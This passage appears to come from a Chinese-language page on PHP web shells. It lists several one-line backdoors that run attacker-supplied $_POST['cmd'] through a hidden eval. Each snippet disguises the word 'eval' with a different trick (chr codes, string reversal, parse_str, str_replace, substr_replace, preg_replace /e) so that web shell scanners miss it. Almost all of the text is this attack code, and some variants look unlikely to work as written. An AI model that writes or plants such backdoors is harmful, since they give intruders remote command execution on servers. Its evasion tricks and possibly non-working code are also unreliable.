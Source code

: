 ```php
<?php
$a = chr(101).chr(118).chr(97).chr(108);
@$a($_POST['cmd']);
?>
```

##### 大小写混淆 + 字符串翻转

```php
<?php
$a = 'l'.'A'.'v'.'E';
$b=strtolower($a);  
$c=strrev($b); 
@$c($_POST['cmd']);
?>
```

##### 使用 pares_str 函数拼接

```php
<?php
$str="a=eval";
parse_str($str);
@$a($_POST['cmd']);
?>
```

##### 使用 str_replace 函数拼接

```php
<?php 
$a = str_replace("test", "", "evtestal");
@$a($_POST['cmd']);
?>
```

##### 使用 substr_replace 函数拼接

```php
<?php
$a=substr_replace("evxx","al",2);
@$a($_POST['cmd']);
?>
```

##### 使用 preg_replace 函数拼接

```php
<?php   
function fun(){  
    return $_POST['cmd'];  
}  
@preg_replace("/test/e", fun(), "test123");  
?>
```
